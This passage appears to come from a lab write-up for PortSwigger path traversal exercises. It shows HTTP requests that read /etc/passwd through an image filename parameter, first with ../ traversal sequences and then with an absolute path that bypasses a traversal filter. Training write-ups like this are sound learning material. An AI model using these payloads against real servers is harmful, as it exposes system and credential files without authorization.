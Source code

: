 ![/etc/passwd content](.gitbook/assets/2024-01-27_10-30-32_377.png)

### [Traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

The app blocks path traversal sequences but treats the filename as relative to a default working directory.

```bash
GET /image?filename=21.jpg

GET /image?filename=../../../etc/passwd # 400 Bad Request

# Try with absolute path
GET /image?filename=/etc/passwd
```

![](.gitbook/assets/2024-01-27_12-17-09_379.png)

### [Traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
